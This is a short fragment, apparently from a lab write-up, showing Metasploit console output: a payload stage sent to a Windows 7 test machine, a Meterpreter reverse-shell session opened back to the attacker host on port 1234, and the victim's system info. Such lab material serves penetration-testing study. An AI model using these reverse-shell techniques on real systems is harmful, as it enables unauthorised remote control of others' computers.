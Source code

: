 ```
```

```
http://192.168.248.148/
```

```
[*] Sending stage (175686 bytes) to 192.168.248.150
[*] Meterpreter session 1 opened (192.168.248.148:1234 -> 192.168.248.150:49268) at 2023-01-15 09:05:40 -0500

meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

